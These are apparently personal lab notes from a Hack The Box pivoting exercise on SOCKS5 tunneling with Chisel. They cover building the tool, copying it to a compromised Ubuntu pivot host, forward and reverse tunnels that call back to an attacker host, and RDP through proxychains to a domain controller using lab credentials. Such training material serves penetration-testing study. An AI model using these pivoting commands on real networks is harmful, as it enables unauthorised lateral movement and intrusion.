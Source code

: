 # SOCKS5 Tunneling with Chisel
Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH. Chisel can create a client-server tunnel connection in a firewall restricted environment.
Let us consider a scenario where we have to tunnel our traffic to a webserver on the 172.16.5.0/23 network (internal network). We have the Domain Controller with the address 172.16.5.19. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.
## Setting Up & Using Chisel
```
git clone https://github.com/jpillora/chisel.git
```
## Building the Chisel Binary
```
w1j0y@htb[/htb]$ cd chisel
```
```
go build
```
## Transferring Chisel Binary to Pivot Host
```
w1j0y@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```
## Connecting to the Chisel Server
```
./chisel client -v 10.129.202.64:1234 socks
```
### Ubuntu Server 10.129.202.64
#### Running the Chisel Server on the Pivot Host
The Chisel listener will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.
```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
**=> Connection established with the chisel client**
## Editing & Confirming proxychains.conf
```
socks5 127.0.0.1 1080
```
Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.
### Pivoting to the DC
```
w1j0y@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
**=> Windows Host reached through the Ubuntu Pivot Host (check mind map for more visual details)**
# Chisel Reverse Pivot
In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.
When the Chisel server has --reverse enabled, remotes can be prefixed with R to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying R:socks will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.
## Starting the Chisel Server on our Attack Host
```
d0x777@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```
## Then we connect from the Ubuntu (pivot host) to our attack host, using the option R:socks
### Ubuntu Server 10.129.202.64
We connect from the Ubuntu (pivot host) to our attack host, using the option R:socks
```
ubuntu@WEB01$ ./chisel client -v <attackhostip>:1234 R:socks
```
## Editing & Confirming proxychains.conf on our Attack host
```
socks5 127.0.0.1 1080
```
```
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
**=> Windows Host reached through the Ubuntu Pivot Host (check mind map for more visual details)**
# Exercise
```
https://github.com/jpillora/chisel/releases
```
What finally worked on the ubuntu server is transferring the `.gz` file to the ubuntu machine, changing permissions, and executing the server command on the ubuntu machine (version 1.9.1 for linux_386 worked fine on the ubuntu server)
## Ubuntu Host
```
chmod +x chisel_1.9.1_linux_386
```
```
./chisel_1.9.1_linux_386 server -v -p 1234 --socks5
```
The client command worked for chisel-1.7.4 on the linux machine
## Linux machine
```
./chisel client -v 10.129.12.20:1234 socks
```
```
socks5 127.0.0.1 1080
```
```
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```